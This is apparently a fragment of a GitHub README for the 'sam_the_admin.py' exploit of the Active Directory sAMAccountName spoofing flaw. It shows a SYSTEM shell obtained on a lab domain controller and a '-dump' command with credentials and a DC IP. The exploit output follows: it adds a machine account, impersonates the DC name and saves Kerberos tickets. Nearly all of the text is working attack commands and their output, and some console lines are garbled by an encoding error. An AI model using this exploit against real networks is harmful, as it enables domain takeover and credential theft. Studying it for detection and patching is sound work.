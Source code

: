 ```bash
[*] Saving ticket in Administrator.ccache
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>net user hr
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
�û���                 hr
ȫ��
ע��
�û���ע��
����/��������          000 (ϵͳĬ��ֵ)
�ʻ�����               Yes
�ʻ�����               �Ӳ�

�ϴ���������           2021/12/15 16:25:45
���뵽��               2022/1/26 16:25:45
����ɸ���             2021/12/16 16:25:45
��Ҫ����               Yes
�û����Ը�������       Yes

�����Ĺ���վ           All
��¼�ű�
�û������ļ�
��Ŀ¼
�ϴε�¼               �Ӳ�

�������ĵ�¼Сʱ��     All

�������Ա
ȫ�����Ա             *Domain Users
����ɹ���ɡ�


C:\Windows\system32>
```

### dump

`python3 sam_the_admin.py "jas502n/John:Admin@123" -dc-ip 172.16.242.135 -dum`

![image](https://user-images.githubusercontent.com/16593068/146141208-6c78d753-1655-4353-b105-46cea824f066.png)


```
$ python3 sam_the_admin.py "jas502n/John:Admin@123" -dc-ip 172.16.242.135 -dump                                                                                                                                         1 ↵
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Selected Target dc01.jas502n.com
[*] Total Domain Admins 1
[*] will try to impersonat Administrator
[*] Current ms-DS-MachineAccountQuota = 10
[*] Adding Computer Account "SAMTHEADMIN-78$"
[*] MachineAccount "SAMTHEADMIN-78$" password = @jokz76QG*AM
[*] Successfully added machine account SAMTHEADMIN-78$ with password @jokz76QG*AM.
[*] SAMTHEADMIN-78$ object = CN=SAMTHEADMIN-78,CN=Computers,DC=jas502n,DC=com
[*] SAMTHEADMIN-78$ sAMAccountName == dc01
[*] Saving ticket in dc01.ccache
```